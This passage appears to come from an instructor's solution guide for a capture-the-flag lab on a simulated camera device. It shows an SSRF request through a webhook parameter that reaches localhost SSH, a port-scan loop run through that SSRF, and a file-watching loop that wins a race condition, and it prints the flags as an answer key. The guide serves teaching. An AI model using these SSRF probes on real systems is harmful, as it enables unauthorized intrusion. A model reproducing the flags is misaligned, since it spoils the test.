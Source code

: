 ```bash
# Try internal service (SSRF)
curl "http://192.168.1.132/axis-cgi/webhook.cgi?url=http://127.0.0.1:22"
```

**Output:**
```
Webhook called successfully
Response: SSH-2.0-OpenSSH_7.4
Internal SSH service flag: FLAG{ELENDIL66222658}
```

```bash
# Enumerate internal services
for port in 21 22 80 443 3306 6379 8080 8888 9000; do
    echo "Checking port $port:"
    curl -s "http://192.168.1.132/axis-cgi/webhook.cgi?url=http://127.0.0.1:$port" | grep -E "flag|FLAG"
done
```

**Teaching Points:**
- SSRF allows access to internal services
- Localhost/127.0.0.1 bypasses firewall rules
- Always validate and whitelist webhook destinations

**Common Student Mistakes:**
- Not trying different internal IPs (127.0.0.1, localhost, 0.0.0.0)
- Missing port enumeration opportunities
- Not encoding URLs properly in parameters

---

### Flag #27: Race Condition Exploitation
**Location**: Temporary file  
**Flag**: `FLAG{ARAGORN91886362}`

```bash
ssh root@192.168.1.132
cat /usr/local/bin/race.sh
```

**Output:**
```bash
#!/bin/sh
# Race condition demonstration
TMPFILE="/var/log/race_flag"
echo "FLAG{ARAGORN91886362}" > $TMPFILE
sleep 0.1
rm -f $TMPFILE
echo "Process completed"
```

```bash
# Set up monitoring loop in background
while true; do
    if [ -f /var/log/race_flag ]; then
        cat /var/log/race_flag
        echo "FLAG CAPTURED!"
        break
    fi
done &

# Trigger the race condition
/usr/local/bin/race.sh
```
